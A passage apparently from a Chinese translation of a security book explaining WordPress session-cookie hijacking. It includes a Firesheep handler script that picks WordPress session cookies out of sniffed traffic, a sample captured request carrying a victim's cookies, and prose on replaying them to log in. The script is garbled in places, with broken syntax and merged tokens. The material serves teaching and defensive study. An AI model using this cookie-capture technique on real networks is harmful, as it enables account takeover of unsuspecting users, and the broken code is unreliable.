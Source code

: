 ```py
// Authors:
// Eric Butler <eric@codebutler.com>
register({
    name: 'Wordpress',
    matchPacket: function (packet) {
        for (varcookieName in packet.cookies) {
            if (cookieName.match0 {
                return true;
        }
    }
},
processPacket: function () {
    this.siteUrl += 'wp-admin/';
    for (varcookieName in this.firstPacket.cookies) {
        if (cookieName.match(/^wordpress_[0-9a-fA-F]{32}$/)) {
            this.sessionId = this.firstPacket.cookies[cookieName];
                break;
        }
    }
},
identifyUser: function () {
    var resp = this.httpGet(this.siteUrl);
this.userName = resp.body.querySelectorAll('#user_info a')[0].textContent;
this.siteName = 'Wordpress (' + this.firstPacket.host + ')';
    }
}); 
```

## 理解 WordPress 的 Session Cookie

在一个实际的数据包中，这些 cookie 看起来像下面那些，这里的受害者运行 Safari 浏览器连接 WordPress 在`www.violentpython.org`。注意，字符串以`wordpress_e3b`开始包含了受害者的`sessionID` cookie 和用户名。

```py
GET /wordpress/wp-admin/HTTP/1.1
Host: www.violentpython.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_2)
AppleWebKit/534.52.7 (KHTML, like Gecko) Version/5.1.2 Safari/534.52.7
Accept: */*
Referer: http://www.violentpython.org/wordpress/wp-admin/
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Cookie: wordpress_e3bd8b33fb645122b50046ecbfbeef97=victim%7C1323803979
%7C889eb4e57a3d68265f26b166020f161b; wordpress_logged_in_e3bd8b33fb645
122b50046ecbfbeef97=victim%7C1323803979%7C3255ef169aa649f771587fd128ef
4f57;
wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive 
```

在下图中，一个攻击者在火狐上运行 Firesheep 工具，识别出相同的字符串发送到未加密的无线网络上。然后他用抽取的凭证登陆到 `www.violentpython.og` 上。注意，HTTP GET 请求和我们原来的请求一样，有同样的 cookie，但是源自不同的浏览器。虽然他不是描述这里，但是值得注意的是请求来自不同的 IP 地址，攻击者不能和受害者使用相同的机器。
